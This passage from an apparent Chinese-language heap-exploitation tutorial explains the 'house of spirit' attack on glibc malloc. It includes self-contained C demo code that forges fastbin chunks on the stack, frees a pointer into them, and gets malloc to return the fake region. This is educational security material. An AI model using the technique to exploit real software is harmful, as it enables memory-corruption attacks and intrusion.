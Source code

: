 - `fake chunk`对应的`fastbin`链表头部不能是该`fake chunk`，即不能构成`double free`的情况

- 示例代码

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

    fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
    malloc(1);

    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
    fake_chunks[1] = 0x40; // this is the size

    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
